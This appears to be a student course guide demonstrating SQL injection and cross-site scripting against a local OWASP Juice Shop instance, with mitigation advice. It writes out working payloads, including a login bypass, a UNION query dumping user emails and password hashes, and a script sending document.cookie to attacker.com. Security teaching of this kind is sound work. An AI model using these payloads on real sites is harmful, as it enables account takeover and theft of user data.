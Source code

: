 # SQL Injection (SQLi) and Cross-Site Scripting (XSS) Attack Guide

## Introduction
This document provides a dummy, educational guide on step-by-step instructions for demonstrating SQL Injection (SQLi) and Cross-Site Scripting (XSS) attacks using the OWASP Juice Shop application. This is intended for learning purposes only in a controlled, local environment. Do not use these techniques on real websites without permission, as that would be illegal and unethical.

OWASP Juice Shop is a deliberately insecure web app designed for security training. Assumptions:
- You have Juice Shop running locally (e.g., via Docker: `docker run --rm -p 3000:3000 bkimminich/juice-shop`).
- Access it at http://localhost:3000.
- All steps are for demonstration; in a real project, document with screenshots.

References:
- OWASP Top 10: https://owasp.org/www-project-top-ten/
- Juice Shop Challenges: https://pwning.owasp-juice.shop/part2/challenges.html

## Section 1: SQL Injection (SQLi)
SQLi exploits poor input handling by injecting malicious SQL code into queries, potentially allowing data access, modification, or deletion.

### High-Level Overview
1. Identify input fields that interact with the database (e.g., login, search).
2. Test with probes to detect vulnerabilities (e.g., error messages).
3. Exploit by crafting payloads to bypass auth or extract data.
4. Mitigate with prepared statements, input validation.

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Launch Juice Shop and navigate to the login page.
- Enter a single quote (') in the email field and submit. Look for error messages like "SQLITE_ERROR" indicating vulnerability.

#### Step 2: Basic Authentication Bypass (Union-Based SQLi)
- Go to the login page.
- In the email field, enter: `' OR 1=1 --`
- Enter any password (e.g., "test").
- Submit. This makes the query always true, logging you in as the admin user.
- Expected: Successful login without credentials.

#### Step 3: Data Extraction (Union-Based)
- Use the search bar (after logging in or as guest).
- Enter: `') UNION SELECT id, email, password_md5 FROM Users --`
- Submit. This appends a query to dump user data.
- Expected: Search results show leaked emails and hashed passwords.

#### Step 4: Blind SQLi (Time-Based or Boolean)
- In search: `%' AND (CASE WHEN (SELECT COUNT(*) FROM Users) > 0 THEN 1 ELSE (SELECT 1/0) END) --`
- Observe response differences (e.g., error vs. no error) to infer data.
- Expected: Confirms table existence without direct output.

#### Step 5: Documentation Notes
- Take screenshots of input, error messages, and results.
- Note impact: Unauthorized access, data breach.

## Section 2: Cross-Site Scripting (XSS)
XSS injects malicious scripts into web pages, executed in users' browsers, potentially stealing sessions or defacing sites.

### High-Level Overview
1. Find fields that reflect or store user input (e.g., search, comments).
2. Test with script tags to check for execution.
3. Exploit by injecting payloads that run JavaScript.
4. Mitigate with output encoding, sanitization (e.g., DOMPurify).

### Step-by-Step Dummy Instructions for Demonstration
#### Step 1: Setup and Identification
- Navigate to the search bar or customer feedback page in Juice Shop.
- Enter: `<script>alert('test')</script>`
- Submit and observe if an alert pops up, indicating no sanitization.

#### Step 2: Reflected XSS (Immediate Execution)
- In the search bar: `<script>alert('XSS Reflected')</script>`
- Submit. The script reflects back and executes.
- Expected: Alert box appears on the results page.

#### Step 3: Stored XSS (Persistent)
- Go to the "Customer Feedback" page.
- In the comment field: `<script>alert('XSS Stored')</script>`
- Submit the form.
- View the feedback as another user or refresh.
- Expected: Alert executes every time the page loads.

#### Step 4: DOM-Based XSS
- In the search bar: `<iframe src="javascript:alert('DOM XSS')"></iframe>`
- Submit. This manipulates the DOM directly.
- Expected: Alert triggers without server reflection.

#### Step 5: Advanced Payload (e.g., Session Theft)
- Inject: `<script>document.location='http://attacker.com?cookie='+document.cookie</script>`
- Expected: Simulates stealing cookies (in demo, use console to verify).

#### Step 6: Documentation Notes
- Capture browser console logs and alerts.
- Note impact: Cookie theft, phishing.

## Mitigation Strategies (For Both Attacks)
### For SQLi:
- Use parameterized queries (e.g., in Node.js: `db.query('SELECT * FROM users WHERE id = ?', [userId])`).
- Validate input: Check for expected formats (e.g., email regex).
- Sanitize: Escape special characters.

### For XSS:
- Sanitize inputs: Use libraries like DOMPurify.
- Encode outputs: HTML-encode user data before rendering.
- Add CSP headers: `Content-Security-Policy: script-src 'self'`.

## Conclusion
This guide is for educational demo only. In your project, implement fixes in a forked Juice Shop repo and re-test to show improvements. Always follow ethical hacking guidelines.

- Created: September 29, 2025
- For: Web Application Security Project (WAS621S)
